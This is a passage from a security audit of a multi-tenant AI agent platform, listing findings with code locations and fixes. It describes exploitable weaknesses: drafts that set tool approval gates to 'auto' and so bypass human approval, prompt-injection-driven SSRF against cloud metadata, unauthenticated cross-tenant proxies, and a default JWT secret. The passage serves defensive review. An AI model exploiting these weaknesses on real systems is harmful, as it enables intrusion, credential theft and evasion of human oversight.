- **Public invoke runs never-published drafts** [gap-public-api-contract-and-commercial-controls-3] (high), `src/app/api/v1/agents/[id]/invoke/route.ts:158`. The only status gate is `retired` (`route.ts:142`), so a draft that was autosaved seconds ago, with unreviewed tool grants and gates, can be executed externally.
  *Fix:* return 409 `agent_not_published` unless `status='published' && published_ver`, and resolve only `agent_versions` rows. If draft invocation is wanted, put it behind an opt-in `runs:create_draft` scope.
- **GET invoke discloses any tenant's agent name and purpose** [gap-public-api-contract-and-commercial-controls-17] (high), `src/app/api/v1/agents/[id]/invoke/route.ts:35`. `select * from agents where id = $1` runs with no auth, no org filter and CORS `*`, and returns `spec.purpose` (drafts included). The 404/200 difference is also an existence oracle across tenants.
  *Fix:* require the same key auth scoped to the key's org, and serve one static `/v1/openapi.json`.

#### Spec governance: approval gates and roles

- **Draft specs are stored unvalidated and the orchestrator trusts their gates** [surface-10] (high; root cause shared with [storage-5]), `src/app/api/agents/[id]/route.ts:31`. `PATCH` (not PUT) and `sandbox/promote/route.ts:22-46` persist client JSON verbatim, and `gateOf()` honours the stored gate (`src/lib/orchestrator.ts:211-212`). A member can set `{id:'send_email', gate:'auto'}` and run it through `/api/runs` with `useDraft` (`runs/route.ts:34`), schedule run-now, swarm, playground, or unauthenticated v1 invoke. `publish/route.ts:20` does force approval on medium- and high-risk tools, so published versions are protected, but the draft paths are not. `guardrails.maxSteps`, `customDlpPatterns`, `rateLimitRpm` and `swarm` go unvalidated.
  *Fix:* add a zod `AgentSpecSchema` plus `normaliseSpec()` on every write path, and compute the effective gate in the orchestrator from the registry (`max(spec.gate, minGate(risk))`), so a spec can only make a gate stricter.
- **Schedule run-now and swarm dispatch bypass budget and retired checks** [auth-14] (high; also runtime-16), `src/app/api/agents/[id]/schedule/route.ts:61`. Both run `agent.draft_spec` for any member, with no role check, no retired check and no `budgetCheck` (`schedule/route.ts:55-70`, `swarm/route.ts:64-75`). Run-now records `trigger='schedule'`, so the audit trail presents an ad-hoc draft run as an approved scheduled run, and the owner's monthly cap does not apply. Correction: skipping `validate()` is not specific to these routes, because `/api/runs` also runs drafts without it, and v1 invoke prefers the published spec.
  *Fix:* one `startRunAuthorized(user, agent, {source})` that applies status, role, `budgetCheck` and spec resolution, and records the true trigger. Every caller goes through it.
- **Retire is not enforced on delegation or parked runs** [gap-agentspec-schema-evolution-8] (high), `src/lib/tools.ts:860`. `invoke_agent` falls back to `draft_spec` for any target that is not published (retired included), and records it under `target.published_ver` (`tools.ts:861,875`), which misrepresents provenance. Retire leaves `awaiting_approval` runs alone, and approving one resumes a retired agent. Only two call sites check `retired`.
  *Fix:* a single `resolveRunnableSpec(agent)` used by every `startRun` caller. On retire, in the same transaction, cancel pending approvals and parked runs (add a `cancelled` status) and audit it.
- **RBAC does not match the documented matrix** [auth-13] (high), `src/app/api/agents/[id]/route.ts:28`. `docs/TECHNICAL_DESIGN_DOCUMENT.md:456-462` says approvers cannot edit. In the code, any member can edit drafts, create and delete credential-bearing connections (`connections/route.ts:19`, `connections/[id]/route.ts:9`), edit skills that change live behaviour without a publish (`skills/route.ts:9-15`), add apps, and arm schedules and swarms. An approver can therefore author the action they later approve. Only publish and retire check `canPublish`.
  *Fix:* one policy module (CASL or an ability map, `can(user,'agent:edit',res)`) called from every mutating route, with the TDD matrix encoded as a tested table. Add a run-only `operator` role.
- **Approvers do not see email recipients or destinations** [gap-approval-governance-and-notification-delivery-2] (high), `src/app/(app)/approvals/page.tsx:30`. `payloadText()` collapses the payload to `body`. For `send_email` the model-chosen `to` and `subject` are hidden, and `github_create_issue` hides the repo and `post_teams_message` the connection. The page tells approvers "You see exactly what would be sent", which is false, and it disagrees with RunView, which shows the full JSON.
  *Fix:* a per-tool `describeForApproval(input, ctx)` next to each tool definition in `tools.ts` that renders every argument with recipients and destinations highlighted. Store the rendered view on the approval row.

#### Identity, sessions and keys

- **Hard-coded fallback JWT secret** [auth-1] (high; also ops-1), `src/lib/auth.ts:7`. `AUTH_SECRET || "dev-secret-change-me"` with no boot check. If the variable is unset, anyone can mint a session for any user (as `scripts/test-export-import-promote.mjs:12-17` does) and decrypt every stored credential. This only happens on misconfiguration, but nothing prevents that misconfiguration.
  *Fix:* validate env at boot with zod or envalid (required, at least 32 random bytes), delete the literal, load from a secrets manager, and add a `kid` key ring.
- **One secret signs JWTs and encrypts every tenant's credentials, with no rotation** [auth-8] (high; also surface-18, ops-19), `src/lib/crypto.ts:5`. `sha256(AUTH_SECRET)` is the AES-256-GCM key for all `secret_enc` values. A leaked signing key exposes every tenant's database passwords, SMTP credentials and Anthropic keys, and README:124 admits rotation is impossible.
  *Fix:* at minimum derive separate keys with HKDF (`info:'jwt'`, `info:'secrets'`). The target is KMS envelope encryption (AWS KMS or Vault transit) with a per-org data key and a `key_version` column, plus a re-encryption job.
- **No brute-force protection on login or register** [auth-10] (high), `src/app/api/auth/route.ts:78`. No rate limit, lockout or CAPTCHA, and no audit of failures, so credential stuffing is unlimited and invisible. Register returns 409 for existing emails (`auth/route.ts:23`). Correction: long passwords are not a CPU vector because bcrypt uses only 72 bytes. The DoS risk is the volume of cost-10 bcryptjs compares in a single process.
  *Fix:* `rate-limiter-flexible` on the existing Redis client, keyed by IP and by email, with progressive lockout, audited `login.failure`, uniform register responses, and consider `argon2id`.
- **No email verification, so a squatter inherits invitations and shares** [auth-7] (high), `src/app/api/invitations/route.ts:33`. Registration (`auth/route.ts:47-59`) activates any email immediately. Invitations can be accepted by id when the email matches, and shares resolve recipients by email (`shares/route.ts:43-47`). Someone who registers `cfo@victim.com` first receives the invited role, admin included.
  *Fix:* add `users.email_verified_at` with single-use signed tokens, require verification and the invite token (not only the id) for acceptance, or adopt Auth.js, Lucia, Clerk or WorkOS.
- **Invitations from a removed or demoted admin stay valid** [gap-tenant-lifecycle-offboarding-7] (high), `src/app/api/members/[id]/route.ts:46`. A departing admin can invite a second address as admin. The invite lasts 14 days (`members/route.ts:11`) and survives both removal and demotion.
  *Fix:* revoke `invited_by` pending invites in the same transaction as the removal or downgrade, recheck at acceptance that the inviter still has `canManageMembers`, and store tokens hashed ([auth-24]).
- **Open registration spends the operator's fallback Anthropic key** [auth-11] (high), `src/lib/ai.ts:29`. Any anonymous user can register, becomes owner, and has no cap by default. Workspaces without their own key fall back to `ANTHROPIC_API_KEY` for compile, runs and sandbox.
  *Fix:* invite-only or verified signup tied to a plan or billing record (Stripe customer) before any model call. Make the platform key opt-in per plan with a hard default cap and per-IP and per-org quotas in Redis.

#### Tool egress and unmetered model use

- **`fetch_url` is an auto-approved SSRF primitive** [surface-4] (high; also surface-5, integrations-1), `src/lib/tools.ts:166`. The tool checks only the scheme. It is `low` risk and therefore runs with `auto`, follows redirects, and has no IP filtering or rebinding defence. A prompt injection in any page the agent reads can pull IMDS credentials or internal services, and the response lands in `run_steps` and the deliverable. `agent-exporter.ts:207` copies the same unguarded fetch into exported runners.
  *Fix:* one `safeFetch()`: resolve DNS and reject private, loopback, link-local and IPv4-mapped ranges (`ipaddr.js`), pin the IP through an `undici` Agent `lookup`, use `redirect:'manual'` and re-validate each hop (max 3), cap the body with a streaming reader, and apply a per-org allow/deny list. Block IMDS at an egress proxy as well.
- **Customer-database tools have no statement timeout, unbounded fetch, and a regex guard** [surface-11] (high; also integrations-7), `src/lib/tools.ts:218`. `pg_sleep`, advisory locks, `pg_terminate_backend` and cartesian joins all pass. The `limit` check is a substring test, all rows load before `.slice(0,500)` (`tools.ts:224`), and connections use whatever role the member pasted. `sql_execute` allows `delete from t` with no WHERE.
  *Fix:* `BEGIN READ ONLY; SET LOCAL statement_timeout='15s'` plus `idle_in_transaction_session_timeout`. Fetch with `pg-cursor`, parse with `pgsql-ast-parser` to allow a single SELECT, verify a least-privilege role at connection test, and require WHERE plus a count preview for writes.
- **Sandbox runs are unmetered and put the Gemini key in the URL** [surface-16] (high), `src/app/api/sandbox/run/route.ts:23`. Any member gets 8 turns per request on the workspace key or the platform `ANTHROPIC_API_KEY`, with no `budgetCheck`, no `runs` row and no audit. `adk-sandbox.ts:171` sends `?key=` in the URL, where it ends up in access logs. Mocked tool results are reported as `status:"ok"` (`adk-sandbox.ts:211,313`).
  *Fix:* record the run as `runs` with `trigger='sandbox'` and meter it, forbid the platform-key fallback, use the `x-goog-api-key` header, and label mocked output `simulated`.

#### Tenant lifecycle and privacy

- **No workspace deletion, suspension or offboarding** [gap-tenant-lifecycle-offboarding-2] (high), `src/app/api/workspace/route.ts:7`. There is no `delete from orgs` anywhere and no `orgs.status`. A churned tenant's secrets, transcripts, files and shares stay forever, and its schedules keep firing and spending money. Tables cascade in SQL, but files on disk and external tokens would survive a manual delete.
  *Fix:* an `orgs.status` state machine (active, suspended, pending_deletion, purged). Owner-only DELETE with step-up auth disarms schedules, revokes invites and shares, and blocks access in `getUser`. A pg-boss or BullMQ job purges rows, the storage prefix and OAuth tokens after 30 days and writes a tombstone.
- **No account deletion or DSAR erasure path, and PII is copied into the append-only audit table** [gap-tenant-lifecycle-offboarding-3] (high), `db/schema.sql:280`. Emails and names are copied into `invitations`, `agent_shares`, `audit_events.actor_name` and audit JSON (`members/[id]/route.ts:58`, `members/route.ts:78`, `shares/route.ts:110`). `audit_events.org_id` has no FK and there is no redaction path, so GDPR Art. 17 and CCPA requests cannot be fulfilled.
  *Fix:* `DELETE /api/me` plus an operator DSAR tool: soft-delete, then pseudonymise after a grace period. Store audit actors by id only and resolve names at read time, or crypto-shred PII with per-user keys. Give audit events their own retention class with a legal-hold flag.

**Medium**

- [auth-15] No security headers or `middleware.ts` (CSP, HSTS, `X-Frame-Options`, nosniff, Referrer-Policy), `next.config.mjs:2`.
- [auth-18] CSRF protection rests only on `SameSite=Lax`, with no Origin or `Sec-Fetch-Site` check on 69 mutating fetches, `src/lib/auth.ts:53`.
- [auth-16] Sessions cannot be revoked or rotated: fixed 7-day JWT, no password change. Add a server-side session table or `jti` plus `session_version`, `src/lib/auth.ts:49`.
- [auth-20] Password policy is length-only, with no reset, MFA or SSO and no unique index on `lower(email)`, `src/app/api/auth/route.ts:24`.
- [auth-27] No input validation (zod) at the route boundary, so bad UUIDs and bodies become 500s, `src/app/api/auth/route.ts:9`.
- [auth-26] Legacy `users.org_id` and `users.role` are still written and used for authorisation alongside memberships, `src/app/api/auth/route.ts:52`.
- [auth-25] Auth events are not audited (login failure, logout, workspace switch, authz denied), and sign-in is attributed to the wrong workspace, `src/app/api/auth/route.ts:83`.
- [auth-12] The active workspace is a per-user DB column, so two tabs write into the wrong tenant. Bind the tenant to the URL or session instead, `src/app/api/workspace/route.ts:13`.
- [auth-22] `getUser` runs two queries per call with no request memoisation. Wrap it in React `cache()` and a single join, `src/lib/auth.ts:71`.
- [auth-24] Invitation tokens are stored in plaintext and sent in query strings, `src/app/api/members/route.ts:80`.
- [auth-17] The simulated OAuth flow fabricates tokens and reports connections healthy, `src/app/api/connections/oauth/[provider]/route.ts:35`.
- [auth-9] The public webhook receiver has no signature verification, stores all headers, and advertises a default secret, `src/app/api/webhooks/[id]/route.ts:13`.
- [auth-19] Share-by-email enables cross-tenant account enumeration and writes into foreign audit logs, `src/app/api/shares/route.ts:43`.
- [surface-24] Any member can create apps with any URL and `unrestricted` iframe permissions, `src/components/AppCanvasViewer.tsx:120`.
- [surface-26] The proxy re-issues cross-origin redirects with upstream cookies attached, `src/app/api/apps/[id]/proxy/[[...path]]/route.ts:231`.
- [surface-25] `send_email`, Slack and Teams accept model-chosen recipients and HTML. Hard-lock them to approval and add a recipient domain allow-list, `src/lib/tools.ts:327`.
- [surface-23] `invoke_agent` runs unpublished drafts, with no child-count or cost budget, `src/lib/tools.ts:860`.
- [gap-agentspec-schema-evolution-3] Registry risk changes never reach published versions because the runtime trusts the frozen spec gate, `src/lib/orchestrator.ts:211`.
- [gap-agentspec-schema-evolution-11] Publish stores no diff, content hash or reviewer evidence, `src/app/api/agents/[id]/publish/route.ts:57`.
- [gap-agentspec-schema-evolution-9] The version diff ignores newer fields (DLP, rate limits, swarm, inputs), `src/lib/spec-diff.ts:187`.
- [gap-approval-governance-and-notification-delivery-15] Retire (the kill switch) does not cancel pending approvals, `src/app/api/agents/[id]/retire/route.ts:35`.
- [gap-approval-governance-and-notification-delivery-7] No approval policy model (routing, quorum, risk tiers), and self-approval is allowed silently even for SQL writes, `src/lib/approvals.ts:11`.
- [gap-approval-governance-and-notification-delivery-3] Segregation of duties checks only the run initiator, so spec authors and publishers can approve their own agents' actions, `src/lib/approvals.ts:44`.
- [gap-approval-governance-and-notification-delivery-4] Admins can mint new approvers through invitations, which hollows out SoD, `src/app/api/members/route.ts:49`.
- [gap-approval-governance-and-notification-delivery-5] An approval does not bind the resolved destination (connection config, URL, bucket, repo read at execution time), `src/lib/orchestrator.ts:407`.
- [gap-approval-governance-and-notification-delivery-6] Every member can read all approval payloads unmasked, DLP agents included, `src/app/api/approvals/route.ts:20`.
- [gap-approval-governance-and-notification-delivery-10] Raw error text and user-controlled names go unescaped into Slack mrkdwn and email, bypassing DLP, `src/lib/notify.ts:112`.
- [gap-approval-governance-and-notification-delivery-11] Any user can make another tenant's mail server send attacker-written share text, `src/app/api/shares/route.ts:115`.
- [gap-approval-governance-and-notification-delivery-14] `notify()` POSTs to whatever URL is stored as the Slack secret, with no host allow-list, `src/lib/notify.ts:109`.
- [gap-approval-governance-and-notification-delivery-16] No notification preferences, unsubscribe or throttling, and the delivery log is readable by every member, `src/app/api/notifications/route.ts:13`.
- [gap-tenant-lifecycle-offboarding-4] No tenant or user data export (DSAR access and portability), `src/app/(app)/audit/page.tsx:9`.
- [gap-tenant-lifecycle-offboarding-5] A removed member's scheduled agents keep firing as them, and ownership cannot be reassigned, `src/app/api/cron/route.ts:104`.
- [gap-tenant-lifecycle-offboarding-9] A removed member's in-flight and parked runs keep running as them, `src/lib/orchestrator.ts:491`.
- [gap-tenant-lifecycle-offboarding-10] A leaver's credentials are not surfaced, reassigned or rotated, `src/app/api/connections/route.ts:13`.
- [gap-tenant-lifecycle-offboarding-11] Shares are routed and audited through the recipient's signup workspace, which may be a former employer, `src/app/api/shares/route.ts:45`.
- [gap-tenant-lifecycle-offboarding-13] The "Started run" audit event persists the full run input, with no retention class, `src/lib/orchestrator.ts:137`.

**Low.** Deleting an agent cascades away its decided approvals, which are governance evidence, so use `ON DELETE RESTRICT` or an append-only ledger [gap-approval-governance-and-notification-delivery-17] (`db/schema.sql:212`). Diffs label historical versions with current registry risk and show unknown tools as `low` [gap-agentspec-schema-evolution-10] (`src/app/api/agents/[id]/diff/route.ts:55`). The proxy returns raw upstream and exception messages to unauthenticated clients [surface-20] (`src/app/api/apps/[id]/proxy/[[...path]]/route.ts:82`). Connection and app deletes report success and write audit rows even when nothing was deleted in the caller's org [auth-30] (`src/app/api/connections/[id]/route.ts:12`). Webhook signing secrets are stored in plaintext in `connections.config` and cannot be rotated [gap-public-api-contract-and-commercial-controls-18] (`src/app/api/connections/oauth/[provider]/route.ts:37`). Scheduled runs compare SoD against a departed identity [gap-approval-governance-and-notification-delivery-19] (`src/app/api/cron/route.ts:104`). Accepted shares keep cross-tenant swarm worker ids in the copied spec [auth-29] (`src/app/api/shares/[id]/route.ts:51`). Public invoke responses expose cost, model and DLP detections [gap-public-api-contract-and-commercial-controls-20] (`src/app/api/v1/agents/[id]/invoke/route.ts:261`).

### 4.2 Storage & files

Files live on the local disk of one Node process, and `documents.path` stores the absolute host path. That makes horizontal scaling, volume moves and restores unsafe, and uploads are unbounded, buffered in memory and never deleted. The worst storage defect is a security one: the `/assets` and `/api/v1/[...path]` catch-alls are an unauthenticated, cross-tenant proxy that marks responses publicly cacheable. It belongs with the embedded-app findings in 4.1 [auth-3], [auth-4], [auth-5]. Import and export also carry governance holes: imported specs can disable approval gates, and exported deploy scripts publish open endpoints.

- **`/assets` and `/api/v1` catch-alls are unauthenticated, fall back to a random tenant's upstream, and mark responses public-immutable** [storage-6] (critical; also data-3, auth-6, surface-6, integrations-2), `src/app/assets/[...path]/route.ts:28`. Neither route checks a session (`src/app/assets/[...path]/route.ts:15-33`, `src/app/api/v1/[...path]/route.ts:15-33`). The upstream is picked from a client-controlled cookie, then the Referer, then `select id from apps where permissions = 'proxy' order by updated_at desc limit 1` in any org. `/assets` returns that content with `public, max-age=86400, immutable` and CORS `*`, so a CDN will serve one tenant's or an attacker's asset to everyone for 24 hours. `/api/v1/[...path]` proxies any method and body, forwards the session cookie (`route.ts:49-62`), and relays Set-Cookie. Next.js does route the real `/api/v1/agents/[id]/invoke` first, so that endpoint is not shadowed.
  *Fix:* delete both catch-alls. Keep app-relative paths under `/api/apps/<id>/proxy/...` (the HTML rewriter already does this) with auth and an org check, and send `Cache-Control: private, no-store`.
- **Local-disk `STORAGE_DIR` with absolute paths in the DB** [storage-7] (high; also runtime-12, ops-6), `src/app/api/documents/route.ts:25`. With two replicas, an upload lands on A and the run or download on B gets `ENOENT`. Because `documents.path` holds `/data/storage/uploads/...`, changing the mount or restoring elsewhere silently orphans every row. Correction: the scheduler is only an HTTP pinger (`scripts/scheduler.mjs:8`) and runs execute in the web process, so artifacts do not land on the scheduler's filesystem. A single replica with a `/data` volume works today.
  *Fix:* a `StorageProvider` interface (put, getStream, delete, presign) on S3-compatible storage (`@aws-sdk/client-s3` plus `lib-storage`; MinIO, R2 or GCS interop). Use keys like `org/<orgId>/documents/<uuid>` and store the key, provider and sha256 rather than a path. Serve downloads through short-lived presigned URLs, and keep a local provider only for dev.
- **Uploads have no size limit or quota and are fully buffered** [storage-8] (high; also surface-12, ops-20), `src/app/api/documents/route.ts:29`. `req.formData()` followed by `Buffer.from(await file.arrayBuffer())` has no body cap. One member can OOM the only process, which also hosts every tenant's in-request runs, or fill the shared volume with `ENOSPC`. No extension allow-list exists, although `parseDocument` handles only pdf, docx, csv, tsv and text.
  *Fix:* reject on `content-length` early, stream to storage (busboy, or direct-to-S3 presigned POST with `content-length-range`), cap each file at N MB, enforce a per-org quota on `sum(size_bytes)`, and allow-list types.
- **Import and promote write unvalidated specs, and the orchestrator honours `gate:"auto"`** [storage-5] (high; also quality-5), `src/lib/orchestrator.ts:212`. Promote spreads client `spec` into `draft_spec`, so a crafted `agent.json` in an imported zip, or a direct POST, can carry `{id:"sql_execute",gate:"auto"}`. Every draft execution path then runs it with no approval (see the table in 4.1). `sources[].connectionId` is not checked against the org, and unknown tool ids and extra keys are persisted. Publish (`publish/route.ts:17-20`) protects published versions only. This shares its root cause with [surface-10] and needs the same fix.
  *Fix:* a zod `AgentSpecSchema` plus `normaliseSpec(spec, org)` at every write boundary, and a registry-derived minimum gate in the orchestrator.
- **Exported deploy bundles default to public, unauthenticated endpoints** [storage-11] (high), `src/lib/agent-exporter.ts:1039`. The bundles use `gcloud run deploy --allow-unauthenticated`, Lambda `AuthType: NONE` (`agent-exporter.ts:1197`), Azure `authLevel:"anonymous"` (`agent-exporter.ts:671`) and CORS `*` (`agent-exporter.ts:530`). The generated `.env.example` asks users to paste `DATABASE_URL` and `SMTP_PASS`. A non-technical user following the README exposes `POST /run` without the platform's gates, audit or rate limits.
  *Fix:* default to authenticated ingress (Cloud Run IAM, Lambda `AWS_IAM` or an API Gateway authorizer, Azure `authLevel:"function"`), generate a bearer check in `server.mjs`, restrict CORS, and gate export on `canPublish` ([storage-20]).
- **`apps.ts` runs DDL at request time and falls back to a per-process in-memory store searched across orgs** [storage-13] (high; also ops-7), `src/lib/apps.ts:93`. On any DB error, `createApp` fakes success into memory, and that data vanishes on restart and is invisible to other replicas. `getAppById` walks every org's list. `ensureTable` runs `CREATE TABLE IF NOT EXISTS` from the web tier, which fails under least-privilege roles and races across replicas. Errors are downgraded to `console.warn`.
  *Fix:* remove the fallback and the runtime DDL, return 5xx, run schema changes only through versioned migrations (node-pg-migrate or drizzle-kit) in a deploy step, and add `org_id` to every lookup.

**Medium**

- [storage-9] File type is trusted from the client and parsing dispatches on extension, with no magic-byte sniffing (`file-type`) or malware scan (ClamAV, GuardDuty Malware Protection), `src/app/api/documents/route.ts:34`.
- [storage-10] Untrusted PDF and DOCX files are parsed in-process with `pdf-parse` (which bundles pdf.js from 2018) and `mammoth`, with no time or memory caps. Move parsing to a worker and switch to `unpdf` or current `pdfjs-dist`, `src/lib/tools.ts:80`.
- [storage-15] Downloads read the whole file into memory, with no streaming, Range, ETag, nosniff, or `Cache-Control: private, no-store`, `src/app/api/documents/[id]/route.ts:13`.
- [storage-19] No delete endpoint, retention or quota for documents and artifacts, and a partial failure leaves orphaned files. Use a `pending` row, then upload, then `ready`, with a sweeper, `src/app/api/documents/route.ts:29`.
- [storage-17] Document listing and `read_document` are capped at the 100 newest rows with no pagination, and user uploads are mixed with run artifacts, `src/lib/tools.ts:243`.
- [storage-18] Documents are org-wide and looked up by ambiguous name. Bind them to runs by id through a `run_documents` table, `src/lib/tools.ts:247`.
- [storage-20] Export has no role check and no audit event, so any member can take the full spec, system prompt and skill instructions, `src/app/api/agents/[id]/export/route.ts:16`.
- [storage-22] Import does unbounded zip and text handling and heuristic JSON parsing with no schema validation. Cap entries and inflated size, and validate against `AgentSpecSchema`, `src/app/(app)/sandbox/page.tsx:191`.
- [storage-16] `xlsx` is an unused dependency with unfixed high-severity advisories, yet the docs claim XLSX support, and `.xlsx` files are read as UTF-8. Remove it or use `exceljs`, and add `npm audit --audit-level=high` to CI, `package.json:31`.

**Low.** Stored filenames use a `Date.now()` prefix, so two uploads in the same millisecond overwrite each other. Name objects by `crypto.randomUUID()` and fail on collision with the `wx` flag or a conditional put [storage-23] (`src/app/api/documents/route.ts:28`). The Dockerfile keeps storage in the container filesystem with no `VOLUME`, and ships devDependencies and test scripts in the runtime image. Use `npm ci --omit=dev` or Next `output:'standalone'`, and remove `STORAGE_DIR` once S3 lands [storage-25] (`Dockerfile:23`).

### 4.3 Runtime & scalability

Every agent run executes inside the HTTP request that started it: `POST /api/runs`, approval decisions, the cron tick, swarm, `invoke_agent` children and the public v1 invoke all block until the run finishes or pauses. There is no queue, no worker tier, no admission control and nothing that reclaims a dead run. That means web capacity and run capacity are the same thing, a deploy or crash strands in-flight work, and one tenant's load directly degrades every other tenant. The run lease in `src/lib/orchestrator.ts` is a sound building block, but nothing else in the runtime backs it up. The most urgent item is a cross-tenant leak in the cron endpoint.

**Target shape.** Most fixes in this section point to the same change: split the web tier from a worker tier that shares a durable job queue.

#### Critical and high

- **Any workspace owner can fire and watch every tenant's scheduled agents** [runtime-2] (also [auth-23]), `src/app/api/cron/route.ts:41`. The manual-tick path accepts any owner session instead of `CRON_SECRET` (`:39-43`). Anyone can become an owner, because self-signup creates an org owned by its creator (`src/app/api/auth/route.ts:49`). The claim query at `:50-64` has no `org_id` filter. The response returns other tenants' agent names, run IDs and error strings (`:107`, `:109`, `:117`), and `:110` writes the caller's name into other tenants' audit logs. Only agents that are already due get fired (at most 20 per tick, each against its own org's budget), so the extra spend is small. The data leak across tenants is still real, and an attacker can repeat it every tick. **Fix:** make `/api/cron` machine-only, guarded solely by `CRON_SECRET`, or move cron into the worker. Add an owner-scoped `POST /api/agents/[id]/schedule/run-now` that filters by `org_id`. No authenticated route should ever return rows from another tenant.

- **Runs execute synchronously in the request with no queue and no real timeout** [runtime-3] (also [ops-2]), `src/lib/orchestrator.ts:140`. `startRun` awaits `advance()`, so the request is held for minutes of model and tool calls. `maxDuration = 300` is a Vercel hint and does nothing under `next start`. Behind an ALB (60s idle timeout), Cloudflare (100s) or nginx's default `proxy_read_timeout`, the client gets an error while the run keeps going. Every in-flight run holds a Node request slot, so the web tier cannot scale independently of run load. A rolling deploy kills every in-flight run ([runtime-4]). `RunAgentModal` shows a spinner for the whole run. **Fix:** route handlers validate, enqueue a `run.execute` job and return 202 with the `runId`. Use pg-boss or Graphile Worker on the existing Postgres, or BullMQ on Redis. A dedicated worker runs `advance()` under a hard wall-clock budget (`AbortController`) with retry and backoff per job. RunView's existing 2s poll already works with this model; add SSE later.

- **The cron tick runs up to 20 agents one after another in one request** [runtime-6] (also [ops-17]), `src/app/api/cron/route.ts:82`. Each `startRun` blocks until its run completes or pauses, so one tick lasts as long as all its runs combined. `scheduler.mjs` awaits each tick and then sleeps 60s, so ticks overlap only when a tick outlives the client's 280s abort. When that happens the server keeps finishing orphaned runs while the next tick claims more work. Throughput is fixed at 20 fires per tick regardless of hardware. Once more than 20 agents come due per tick, the backlog grows and an 08:00 schedule fires later every day. One tenant's slow agent delays everyone else's. The `for update skip locked` claim, with `next_run_at` written before the run starts (`:62-70`), correctly prevents double-fires. **Fix:** the cron handler only claims and enqueues, then returns within milliseconds. Alternatively, use pg-boss `boss.schedule` and drop the external heartbeat.

- **No per-tenant or global concurrency limit** [runtime-7], `src/lib/db.ts:9`. A grep for `concurren|semaphore|p-limit|inflight` finds nothing. Any user can start unlimited simultaneous runs through the UI, API, swarm or delegation. Each run holds a request, calls the workspace's single Anthropic key (a 429 shows up as a failed run) and competes for the 10 pool connections. One tenant's burst can starve every other tenant's UI queries and approvals. The per-agent RPM limit (`orchestrator.ts:91-103`) only works within one process. **Fix:** a per-tenant concurrency limit, using BullMQ Pro groups, pg-boss team concurrency or `singletonKey`, or a `runs_active` counter checked in the claim transaction. Add a global worker concurrency setting and per-org plan limits stored on `orgs`. When a tenant is at its limit, return 429 with `Retry-After`.

- **Nothing reclaims an expired lease, so a crash or deploy leaves runs on `running` forever** [runtime-4] (also [data-5], [ops-3]), `src/lib/orchestrator.ts:146`. `LEASE = "5 minutes"` only stops two workers claiming the same run. `locked_at` appears only in `orchestrator.ts` (`:166`, `:168`, `:224`, `:356`, `:391`, `:525`), and nothing looks for `status='running' and locked_at < now()-5min`. After an OOM, `docker stop` or a rolling deploy, affected runs show "Working" indefinitely. `cost_usd` stays 0, so the monthly cap under-counts, and scheduled runs never deliver. `README.md:188` and `docs/TECHNICAL_DESIGN_DOCUMENT.md:512` say runs "automatically unlock … and can be resumed". No such code path exists. **Fix:** use a queue with stalled-job detection (BullMQ `stalledInterval`/`maxStalledCount`, or pg-boss `expireInSeconds` plus retry). Add a reaper that fails runs past a maximum wall-clock time. Handle SIGTERM by draining in-flight runs, and add an index on `runs(status, locked_at)`.

- **The spend cap only counts finished runs, so concurrent runs can overshoot it together** [runtime-11] (also [ai-7]), `src/lib/orchestrator.ts:229`. `cost_usd` is written only in `finish()`, so each in-flight run sees the finished total plus its own tokens. A tenant at $99 of a $100 cap can have 50 runs in flight, each allowed about $1. The check also runs a full-month aggregate (`src/lib/spend.ts:29`) plus `capFor` on every loop iteration of every run. **Fix:** keep an atomic per-org period counter updated on every model call, reserve budget when a run starts, and cache `capFor` for the run. See also [data-7] and [gap-public-api-contract-and-commercial-controls-16].

- **`invoke_agent` fan-out is unbounded, and children run synchronously inside the parent** [runtime-9] (also [integrations-23], [ai-23]), `src/lib/tools.ts:872`. Depth is capped at 3 (`:857`) and self-delegation is blocked (`:835`), but breadth is not limited. Every `tool_use` in every step can spawn a child, and each child gets its own fresh `maxSteps` and delegation budget. Cycles such as A→B→A pass the check; the depth cap bounds them, but the fan-out is not bounded. The child runs inside the parent's tool call, so the parent's lease heartbeat (`orchestrator.ts:224`) is not refreshed and the whole tree sits inside one request. Children start without `budgetCheck`. **Fix:** pass a delegation budget in `ToolContext`: remaining steps, remaining USD, the ancestor agent ids (for cycle detection) and a maximum number of children per run. Enqueue children as separate jobs, suspend the parent in `waiting_children` (BullMQ flows or the equivalent), and charge child cost to the root run.

- **A delegated child that pauses for approval never delivers its result** [runtime-10], `src/lib/tools.ts:893`. The parent receives only a note and finishes without the child's work. After approval, nothing joins the child's output back to the parent. Any supervisor/worker workflow that touches a gated tool is therefore broken. A human can only reconstruct it by hand through the link at `approvals/page.tsx:185`. **Fix:** make delegation a durable join. On completion, including after approval, the child enqueues `parent.resume`, which appends the child's result as the `tool_result`. Until that exists, reject gated tools on delegated agents during spec validation.

#### Medium

- [runtime-21] `src/app/api/approvals/[id]/route.ts:58`: the approval endpoint blocks for the entire resumed run. Record the decision, enqueue `run.resume` and return 200.
- [runtime-15] `src/lib/orchestrator.ts:224`: the lease is renewed only once per iteration, so a single long model or tool call can outlive it. Renew on a background timer every LEASE/3, or use the queue's automatic lock renewal, and abort when renewal fails.
- [runtime-5] `src/lib/orchestrator.ts:375`: tool side effects run before run state is saved, so a reclaimed run executes them again. Write a `run_steps` row keyed by `(run_id, tool_use_id)` before each tool runs, skip steps already started, and pass `tool_use_id` as an idempotency key.
- [gap-public-api-contract-and-commercial-controls-16] `src/lib/orchestrator.ts:229`: the cap check runs a month aggregate plus two lookups on every iteration. Replace it with an `org_usage_periods` row (reserved/committed micros) or Redis `INCRBY`, reserving at admission and at each model call.
- [runtime-23] `src/lib/db.ts:12`: each process has its own pool of 10 with no pooler, and `globalThis` reuse is disabled in production. Add PgBouncer or RDS Proxy in transaction mode, make pool size and `statement_timeout` configurable by env, and close the pool on SIGTERM.
- [runtime-8] `src/lib/guardrails.ts:156`: the rate limiter is an in-process `Map`, so it applies per replica, resets on restart and grows without bound. Use `rate-limiter-flexible` with Redis or a Postgres token bucket keyed by org and agent.
- [runtime-22] `src/lib/notify.ts:83`: SMTP and Slack notifications are sent synchronously inside the run loop, with a new transport for every message. Use a transactional outbox and a delivery worker, and set transport timeouts.
- [runtime-17] `src/app/api/v1/agents/[id]/invoke/route.ts:155`: `started_by` gets invalid values. Cron inserts `''` into a uuid column and v1 invoke inserts an org id into a users FK. Make the column nullable and add `started_by_kind` (user|schedule|api_key|agent).
- [runtime-20] `src/app/api/agents/[id]/swarm/route.ts:64`: the runtime never reads the swarm configuration. Compile it into prompts and `invoke_agent` grants, or remove it until durable delegation exists.
